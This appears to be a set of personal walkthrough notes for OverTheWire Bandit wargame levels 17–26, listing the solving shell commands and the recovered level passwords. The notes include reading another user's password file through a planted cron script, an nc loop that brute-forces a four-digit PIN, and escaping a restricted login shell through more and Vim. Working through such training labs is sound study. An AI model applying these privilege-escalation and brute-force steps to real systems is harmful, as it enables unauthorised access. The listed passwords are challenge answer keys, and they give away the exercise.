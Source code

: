   * (locally) `ssh bandit17@bandit.labs.overthewire.org -p 2220 -i .\bandit17.pem`
* Level 17 = `diff passwords.old passwords.new` (**x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO**)
* Level 18
  * (optional) `scp -P 2220 bandit18@bandit.labs.overthewire.org:~/.bashrc .\bashrc.txt` (retrieves offending rc file)
  * `ssh -t bandit18@bandit.labs.overthewire.org -p 2220 ls` (_~/readme_)
  * `ssh -t bandit18@bandit.labs.overthewire.org -p 2220 cat readme` (**cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8**)
* Level 19 = `./bandit20-do cat /etc/bandit_pass/bandit20` (**0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO**)
* Level 20
  * Two terminals solution (ie two Windows Terminal, or via `tmux`, `Ctrl + b, "`, `Ctrl + b, ↑↓`)
    * (from a secondary terminal) `nc -l 2097` = star a TCP server
    * `./suconnect 2097` = connects client to server
    * (in secondary terminal) `0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO` (**EeoULMCra2q0dSkYj561DX7s1CpBuOBt**)
  * Single terminal solution (uses a temp file)
    * `( echo 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO | nc -l 2097 > /tmp/koko/bandit21.pass ) &` = starts background TCP listen with data sitting in pipe buffer
    * `./suconnect 2097`
    * (optional) `wait`, however `netcat` will prompty terminates on its own (since it's not configured to keep running after first connection eg via `-k`, and parent shell will wait for it)
    * `cat /tmp/koko/bandit21.pass` (**EeoULMCra2q0dSkYj561DX7s1CpBuOBt**)
* Level 21
  * `ls /etc/cron.d` = check out cron directory as indicated by objective
  * `cat /etc/cron.d/cronjob_bandit22` = open specific crontab
  * `cat /usr/bin/cronjob_bandit22.sh` = check out script run by crontab every minute
  * `cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv` = contains a copy of password (**tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q**)
* Level 22
  * `ls /etc/cron.d`
  * `cat /etc/cron.d/cronjob_bandit23`
  * `cat /usr/bin/cronjob_bandit23.sh` = see script source, adapt parts of it (see next command)
  * `cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)` (**0Zf11ioIjMVN551jX3CmStKLYqjk54Ga**)
* Level 23
  * `ls /etc/cron.d`
  * `cat /etc/cron.d/cronjob_bandit24`
  * `cat /usr/bin/cronjob_bandit24.sh` = script that executes (bandit23's) then deletes all scripts in foo directory
  * `ls /var/spool/bandit24/foo -l` = foo content is denied
  * `ls /var/spool/bandit24 -l` = foo itself is _drwxrwx-wx_, so we can add new files/scripts
  * `cd /var/spool/bandit24/foo`
  * (optional) `echo -e '#!/bin/bash\nls -l > /tmp/koko/out;chmod 777 /tmp/koko/out' > koko.sh; chmod +x koko.sh` = script to `ls`
  * `echo -e '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/koko/out;chmod 777 /tmp/koko/out' > koko.sh; chmod +x koko.sh` = script to password steal
  * `cat /tmp/koko/out` (**gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8**)
  * (optional) `rm /tmp/koko/out`
* Level 24
  * `nc localhost 30002` = connects, sees prompt asking for password & pin
  * `(for pin in {1..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin"; done) | nc localhost 30002 2> /dev/null` (**iCi86ttT4KSNe1armKiwbQNmB3YJP3q4**)
* Level 25
  * `ls -l` (_bandit26.sshkey_), `exit`
  * `scp -P 2220 bandit25@bandit.labs.overthewire.org:~/bandit26.sshkey ./bandit26.pem`
  * `ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.pem` = get kicked out immediately
  * (logged as bandit25) `cat /etc/passwd | grep bandit26` (shell _/usr/bin/showtext_)
  * (logged as bandit25) `cat /usr/bin/showtext` = startup shell script
  * `ls -l /usr/bin/showtext /home/bandit26/text.txt`
  * (locally) resize terminal windows until it is smaller than ASCII logo, redo ssh, `more` now pauses "interactively
  * `v` = launches Vim
  * `:e /etc/bandit_pass/bandit26` = edit given file, ie bandit26 password (**s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ**)
* Level 26